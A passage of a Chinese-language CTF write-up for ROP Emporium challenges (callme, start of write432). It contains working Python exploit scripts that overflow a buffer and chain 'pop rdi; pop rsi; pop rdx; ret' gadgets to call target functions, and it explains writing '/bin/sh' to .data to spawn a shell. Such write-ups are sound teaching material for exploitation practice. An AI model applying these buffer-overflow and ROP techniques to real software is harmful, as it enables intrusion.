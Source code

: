 ```python

io = zio('./callme32')
io.writeline(payload)
io.read()
```

### callme

64 位程序不需要平衡堆栈了，只要将参数按顺序依次放进寄存器中就可以了。

```text
$ rabin2 -i callme | grep callme
ordinal=004 plt=0x00401810 bind=GLOBAL type=FUNC name=callme_three
ordinal=008 plt=0x00401850 bind=GLOBAL type=FUNC name=callme_one
ordinal=011 plt=0x00401870 bind=GLOBAL type=FUNC name=callme_two
```

```text
gdb-peda$ ropsearch "pop rdi; pop rsi"
Searching for ROP gadget: 'pop rdi; pop rsi' in: binary ranges
0x00401ab0 : (b'5f5e5ac3')      pop rdi; pop rsi; pop rdx; ret
```

payload 如下：

```python
from zio import *

payload  = "A"*40

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401850)

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401870)

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401810)

io = zio('./callme')
io.writeline(payload)
io.read()
```

### write432

这一次，我们已经不能在程序中找到可以执行的语句了，但我们可以利用 gadgets 将 `/bin/sh` 写入到目标进程的虚拟内存空间中，如 `.data` 段中，再调用 system() 执行它，从而拿到 shell。要认识到一个重要的点是，ROP 只是一种任意代码执行的形式，只要我们有创意，就可以利用它来执行诸如内存读写等操作。

这种方法虽然好用，但还是要考虑我们写入地址的读写和执行权限，以及它能提供的空间是多少，我们写入的内容是否会影响到程序执行等问题。如我们接下来想把字符串写入 `.data` 段，我们看一下它的权限和大小等信息：

